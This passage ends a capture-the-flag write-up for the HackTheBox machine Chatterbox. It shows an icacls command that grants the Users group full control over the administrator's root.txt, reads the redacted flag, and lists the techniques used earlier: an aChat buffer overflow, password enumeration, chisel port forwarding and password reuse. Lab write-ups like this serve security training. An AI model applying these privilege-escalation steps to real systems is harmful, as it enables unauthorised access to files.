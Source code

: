 **Now, since user `Alfred` has full access to the Desktop directory, we can use `icacls` to modify the `root.txt` file's permission:**
```shell
c:\Users\Administrator\Desktop>ICACLS root.txt /grant "Users":F
ICACLS root.txt /grant "Users":F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files
```

Now we can read the root flag!

## Rooted

**root.txt:**
```shell
c:\Users\Administrator\Desktop>type root.txt
type root.txt
{Redacted}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Chatterbox/images/Pasted%20image%2020230518132648.png)

# Conclusion

What we've learned:

1. Exploiting aChat's Remote Buffer Overflow
2. Enumerating Passwords
3. Port Forwarding Via `chisel`
4. Vertical Privilege Escalation Via Password Reuse
